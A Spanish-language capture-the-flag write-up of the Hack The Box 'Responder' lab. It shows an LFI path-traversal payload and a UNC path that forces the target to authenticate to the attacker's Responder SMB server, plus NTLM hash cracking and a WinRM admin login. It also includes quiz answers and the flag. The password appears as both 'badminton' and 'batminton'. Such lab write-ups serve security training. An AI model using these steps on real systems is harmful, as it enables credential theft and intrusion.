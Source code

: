 ```yaml
---
title: HTB - Responder
date: 2022-06-19 3:30:00
categories: [Hack The Box, Starting Point]
tag: [Web, Responder, LFI]
img_path: /assets/img/htb/responder
image:
   path: preview1.png
   width: 345
   height: 164
   alt: 
---
```


## <b style="color:#FF5733">Escaneo</b>
---
Realizamos un escaneo de `nmap` para identificar los puertos abiertos y servicios.

```console
nmap -v -p- --min-rate 5000 -sV -sC {target ip}
```

Resultado del escaneo:

```console
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-27 15:41 CDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
Nmap scan report for 10.129.39.225
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Initiating NSE at 15:43
Completed NSE at 15:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.94 seconds
```

Visitamos el servidor web corriendo en el puerto 80 mediante el navegador web.

![](Pasted image 20220427161647.png)
![](Pasted image 20220427161628.png)

Nos redirige a una pagina web llamada `unika.htb`. Debido a que nos encontramos dentro de la misma red que la máquina objetivo y que ese dominio no esta registrado en un servidor DNS, procedemos a agregar la ip y el nombre de dominio al archivo `/etc/hosts` para poder visualizar la pagina web.

![](Pasted image 20220427162215.png)

Ahora ya podemos visualizarla.

![](Pasted image 20220427162345.png)

Navegando por la página nos encontramos con un apartado para cambiar el idioma, si nos fijamos en la url se ve como se incluye un archivo llamado `french.html` mediante otro archvio llamado `index.php`.

![](Pasted image 20220427162745.png)

Vamos a pasarle al parámetro <b style="color:#800000">"page"</b> la siguiente cadena para saber si es vulnerable a <b style="color:#800000">LFI</b> y como consecuencia a <b style="color:#800000">path traversal</b>.

```console
../../. ./../../../../../windows/system32/drivers/etc/hosts
```

![](Pasted image 20220427163537.png)

![](Pasted image 20220427163432.png)

Como podemos ver existe una vulnerabilidad en esta web.

## <b style="color:#DA0098">Ganando Acceso (Admin)</b>
---
Regresando al escaneo, el puerto `5985` se encuentra abierto lo que quiere decir que <b style="color:#800000">WinRM</b> esta disponible. Podemos aprovecharnos del <b style="color:#800000">LFI</b> de la página web para capturar el <b style="color:#800000">hash NTLM</b> de la máquina con ayuda de la herramienta `responder`.

Vamos a ejecutar la herramienta con el siguente comando.

```console
sudo responder -I tun0
```
> `tun0` es la interfaz de red de nuestra máquina
{: .prompt-info }

![](Pasted image 20220427170550.png)

Verificamos que el servidor <b style="color:#800000">SMB</b> este activado.

![](Pasted image 20220427170523.png)

Mientras `responder` esta esperando una conexion, nos dirigimos a la URL de la página web e ingresamos la siguiente cadena en el parámetro page.

```console
//{our machine ip}/somefile
```
Esto para que la página incluya un "recurso" de nuestro servidor `SMB` y se establezca una conexión.

![](Pasted image 20220427171130.png)

Vemos en la terminal que se ha capturado el <b style="color:#800000">hash NTLM</b>.

![](Pasted image 20220427171250.png)

Guardamos el hash en un archivo de texto y lo desciframos con ayuda de la herramienta `John The Ripper` .

![](Pasted image 20220427171705.png)

```console
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

![](Pasted image 20220427172056.png)

A continuación utilizamos la herramienta `evilwinrm` para autenticarnos en el sistema con las credenciales obtenidas.

```console
evil-winrm -i {target ip} -u administrator -p badminton
```

![](Pasted image 20220427172504.png)

Ahora solo queda buscar el archivo `flag.txt`. 
> Este se encuentra en la ruta `C:\Users\mike\Desktop`.
{: .prompt-info }

![](Pasted image 20220427172844.png)

## Preguntas
---
1. ¿Cuántos puertos TCP están abiertos en la máquina?

   <b style="color:#800080">3</b>

2. Al visitar el servicio web utilizando la dirección IP, ¿cuál es el dominio al que se nos redirige?

    <b style="color:#800080">unika.htb</b>

3. ¿Qué lenguaje de secuencias de comandos se utiliza en el servidor para generar páginas web?

    <b style="color:#800080">php</b>

4. ¿Cuál es el nombre del parámetro de URL que se usa para cargar diferentes versiones de idioma de la página web?

    <b style="color:#800080">page</b>

5. ¿Cuál de los siguientes valores para el parámetro `page` sería un ejemplo de explotación de una vulnerabilidad de inclusión de archivo local (LFI): "french.html", "//10.10.14.6/somefile", "../../. ./../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"

    <b style="color:#800080">../../. ./../../../../../windows/system32/drivers/etc/hosts</b>

6. ¿Qué significa NTLM?

    <b style="color:#800080">New Technology LAN Manager</b>

7. ¿Qué indicador usamos en la utilidad Responder para especificar la interfaz de red?

    <b style="color:#800080">-I</b>

8. Hay varias herramientas que aceptan un desafío/respuesta de NetNTLMv2 y prueban millones de contraseñas para ver si alguna de ellas genera la misma respuesta. A una de estas herramientas se la suele denominar `john`, pero el nombre completo es ¿cuál?.

    <b style="color:#800080">John The Ripper</b>

9. ¿Cuál es la contraseña para el usuario administrador?
 
    <b style="color:#800080">batminton</b>

10. Usaremos un servicio de Windows (es decir, que se ejecuta en la caja) para acceder de forma remota a la máquina Responder usando la contraseña que recuperamos. ¿En qué puerto TCP escucha?

     <b style="color:#800080">5985</b>

**Root Flag:** <b style="color:#FF8B00">ea81b7afddd03efaa0945333ed147fac</b>

![](Pasted image 20220427134218.png)
